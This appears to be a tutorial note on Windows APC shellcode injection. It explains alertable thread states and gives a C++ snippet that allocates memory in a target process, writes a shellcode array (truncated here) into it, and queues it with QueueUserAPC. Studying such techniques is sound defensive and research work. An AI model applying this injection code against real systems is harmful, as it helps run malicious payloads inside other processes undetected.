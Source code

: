 APC (Asynchronous Procedure Call) Injection is shellcode injection technique that use the functioning of Windows' APCs.
An APC is a function [**that executes asynchronously in the context of a thread (of a process)**.](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls), regarding official Microsoft documentation.
When a APC is queued into a thread, the system issues a software interrumpt. When the thread enters an '**alertable**' state, the Windows Kernel checks if there are any queued APCs for that thread. If an APC is found in the queue, the kernel suspends the normal execution and it will execute the code/function specified in the APC.
The high-level overview technique is simple:
- Create a shellcode space in the remote process (VirtualAlloc)
- Insert the shellcode into that memory space (WriteProcessMemory)
- Create an APC object pointing to the shellcode (QueueUserAPC) so it is inserted into the APC queue of a remote process.
- After that, we must turn the thread of that process into the  **alertable** state so the APC queue is checked, and our APC routine containing the shellcode is detected by the kernel and executed.

Just as additional information, the Windows threads can be in one of the following states:
> Running — The thread is actively executive code.  
> Waiting — The thread is waiting for some events to occur  
> Blocked — The thread is blocked.  
> Alertable — This is the special state that allows a thread to be waiting for an alert event, which can be triggered using the `QueueUserAPC` function.

And this is the list of functions that make the thread enter the **alertable** state:
![[attachments/apc_injection.png]]

The snippet of code that performs an APC Injection is the following:

```c++
int main() {

	unsigned char payload[] = {
	  0xfc, 0x48, 0x83, ...

	wchar_t process_name[MAX_PATH] = L"PE-bear.exe";
	DWORD pid = 0;
	pid = findMyProc(process_name);
	if (pid == 0) {
		printf("PID not found :( exiting...\n");
		return EXIT_FAILURE;
	}

	HANDLE hThread = getHandleToThread(pid);
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

	PVOID pRemoteCode = VirtualAllocEx(hProcess, NULL, sizeof(payload), MEM_COMMIT, PAGE_EXECUTE_READ);
	WriteProcessMemory(hProcess, pRemoteCode, payload, sizeof(payload), NULL);

	QueueUserAPC((PAPCFUNC) pRemoteCode, hThread, NULL);

	CloseHandle(hThread);

	return EXIT_SUCCESS;

}
```

Then we would have to turn the thread of the remote process into an alertable state, just by interacting with the remote process, so any of the calls that make that thread alertable is called.
